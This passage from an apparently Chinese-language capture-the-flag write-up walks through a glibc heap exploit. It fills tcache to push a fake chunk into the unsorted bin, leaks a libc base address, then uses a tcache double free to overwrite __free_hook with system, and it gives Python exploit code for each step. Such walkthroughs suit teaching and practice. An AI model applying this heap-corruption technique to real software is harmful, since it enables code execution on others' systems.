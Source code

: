 结束时 `tcache(0x51).e->fake_chunk->fake_chunk`

# Step-3: Put fake_chunk into unsorted bin

- target: 将fake_chunk放入unsorted bin, fake_chunk.fw bk修改为libc上的地址
- reason: 链入unsorted bin时，unsorted bin用fw bk域来维护双向链表
- method: free七次填满tcahe(0xa1)，再free一次放入 unsorted bin (fast bin存不下)

```python
# === Step-3: put fake_chunk into unsorted bin
for i in range(7):  # 填满 tcahe(0xa1)
    delete(5)  # fake_chunk
# Tcachebins[idx=8, size=0xa0] count=7 # tcahe(0xa1)已满 unsorted bins为空
delete(5)  # unsorted bins->fake_chunk # 链入unsorted bins链表时 fw bk指针指向libc上的一个结构

# tcache(0x51)上存储的fake_chunk fd域改成了libc上的地址(即tcache(0x51)第二个chunk在libc上)
```
- 由于fake_chunk的fw bk被修改了，所以此时 tcache(0x51) 变成了：
```python
tcache(0x51).e->fake_chunk->some_addr_in_libc
```

# Step-4: Leack libc addr

- 由于存在 tcache(0x51) 的fake_chunk的fw被修改了，所以此时malloc两次即可得到一个libc上的地址
- 通过这个地址和vmmap上显示的libc的基址计算一个每次运行都不会变的offset，从而计算出每次运行时的libc基址

```python
# === Step-4: leack libc addr: 从tcache(0x51) malloc两次得到libc上的地址
add(8, 0x40, "a")  # tcache(0x51).e->some_addr_in_libc
# 再拿一次 返回的addr就是前面的fw的值，通过vmmap对比计算出偏移量得到libc基址
libc_addr = add(9, 0x40, "a") - 0x7fc25a088ca0 + 0x00007fc259c9d000
print("libc addr=>", hex(libc_addr))  # 对照这里的基址和vmmap里的libc的基址对不对
libc.address = libc_addr
```

# Step-5: Change `__free_hook` to `system`

- 挑一个来做double free，但是用8去做double free会报错，原因待探究
- tache(0x81)的变化过程：
  1. `tache(0x81).e -> c -> c -> c`  : free 3 times
  2. `tache(0x81).e -> c -> __free_hook` : malloc并改fw指向`__free_hook`
  3. `tache(0x81).e -> __free_hook` : malloc一次
  4. `*__free_hook = libc.symbols["system"]`: malloc一次得到`__free_hook`并改为`libc.symbols["system"]`

```python
# === Step5: change __free_hook : double free
delete(1)  # 这里用8去double free会被检测出double free 原因待探究 # to tcache(0x81)
delete(1)
delete(1)  # tache(0x81).e -> c -> c -> c
add(10, 0x70, p64(libc.symbols["__free_hook"]))  # tache(0x81).e -> c -> __free_hook
add(11, 0x70, "a")  # tache(0x81).e -> __free_hook
add(12, 0x70, p64(libc.symbols["system"]))  # *__free_hook = libc.symbols["puts"]
# 本地用system测会有问题 可以用pust替代先看效果
# x /xg &__free_hook 查看__free_hook有没被修改(默认为NULL)
```
